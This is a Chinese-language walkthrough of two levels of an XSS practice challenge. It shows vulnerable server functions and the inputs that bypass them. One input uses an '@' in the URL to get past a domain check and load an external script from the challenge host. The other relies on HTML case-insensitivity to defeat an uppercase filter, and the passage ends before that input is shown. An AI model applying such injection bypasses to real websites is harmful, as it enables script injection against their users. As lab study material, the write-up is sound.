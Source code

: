 ## 0x0A

此题是将可能的符号都做了转义为实体符号，并且需要匹配指定的 URL，题解给出的解法是访问此网站根目录下的`j.js`文件，但实际使用时不生效，查看了一些其他人的博客也是同样不生效，不知道为什么

其利用的知识点其实是 URL 访问中如果存在`@`符号，则会访问到最后面的那个 URL 地址

Server Code

```js
function render(input) {
  function escapeHtml(s) {
    return s
      .replace(/&/g, "&amp;")
      .replace(/'/g, "&#39;")
      .replace(/"/g, "&quot;")
      .replace(/</g, "&lt;")
      .replace(/>/g, "&gt;")
      .replace(/\//g, "&#x2f");
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/;
  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`;
  }
  return "Invalid URL";
}
```

Input Code

```js
https://www.segmentfault.com@xss.haozi.me/j.js
```

HTML

```html
<script src="https:&#x2f&#x2fwww.segmentfault.com@xss.haozi.me&#x2fj.js"></script>
```

## 0x0B

知识点：HTML 对大小写不敏感，JS 对大小写敏感

所以将 JS 代码进行 HTML 编码，嵌入到 HTML 标签中就可以绕过大写转换函数

Server Code

```js
function render(input) {
  input = input.toUpperCase();
  return `<h1>${input}</h1>`;
}
```

Input Code
